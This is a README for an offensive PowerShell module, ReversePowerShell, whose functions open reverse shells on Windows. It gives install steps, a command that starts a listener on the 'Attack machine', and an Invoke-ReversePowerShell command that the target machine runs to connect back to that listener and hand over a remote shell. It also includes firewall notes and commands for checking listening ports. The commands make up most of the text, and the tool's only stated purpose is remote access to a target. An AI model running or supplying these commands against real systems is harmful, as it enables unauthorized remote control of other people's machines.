# ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell

#### INSTALL THE MODULE
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 C:\Users\\$env:USERNAME\Documents\WindowsPowerShell\Modules\ReversePowerShell

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
---
#### FIREWALL
If you are not able to gain a connection it is most likely due to the Windows Firewall. 

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
